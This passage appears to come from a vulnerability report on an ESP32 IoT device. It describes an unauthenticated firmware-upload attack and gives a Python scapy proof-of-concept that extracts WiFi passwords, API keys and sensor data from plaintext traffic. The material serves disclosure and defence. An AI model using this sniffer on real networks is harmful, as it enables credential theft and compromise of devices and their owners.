 ```
Host: 192.168.1.100:82
Content-Type: multipart/form-data

[Firmware binary being uploaded...]

Attacker Actions:
- Replace firmware with malicious version
- Inject backdoor
- Device compromised permanently

RESULT: All communication compromised
```

### Proof of Concept

**Packet Capture Demonstration:**

```python
from scapy.all import *
import json

def packet_callback(packet):
    """Callback to process captured packets"""
    
    if packet.haslayer(Raw):
        payload = packet[Raw].load.decode('utf-8', errors='ignore')
        
        # Check for WiFi credentials in HTTP POST
        if 'POST /connectivity' in payload:
            print("\n[!] WIFI CREDENTIALS CAPTURED:")
            try:
                # Extract JSON body
                json_start = payload.find('{')
                if json_start > 0:
                    json_data = payload[json_start:]
                    creds = json.loads(json_data)
                    print(f"    SSID: {creds['ssid']}")
                    print(f"    Password: {creds['password']}")
            except:
                pass
        
        # Check for API key in backend calls
        if 'api_key=' in payload:
            print("\n[!] API KEY CAPTURED:")
            api_key_start = payload.find('api_key=') + 8
            api_key_end = payload.find('&', api_key_start)
            api_key = payload[api_key_start:api_key_end]
            print(f"    API Key: {api_key}")
        
        # Check for MQTT messages
        if 'sensor_id' in payload and 'reading_value' in payload:
            print("\n[!] SENSOR DATA CAPTURED:")
            try:
                json_start = payload.find('{')
                json_end = payload.find('}', json_start) + 1
                sensor_data = json.loads(payload[json_start:json_end])
                print(f"    Timestamp: {sensor_data.get('timestamp')}")
                print(f"    Sensor ID: {sensor_data.get('sensor_id')}")
                print(f"    Value: {sensor_data.get('reading_value')}")
            except:
                pass

print("[*] Starting packet capture on interface wlan0")
print("[*] Filtering for ESP32 traffic (192.168.1.100)")
```
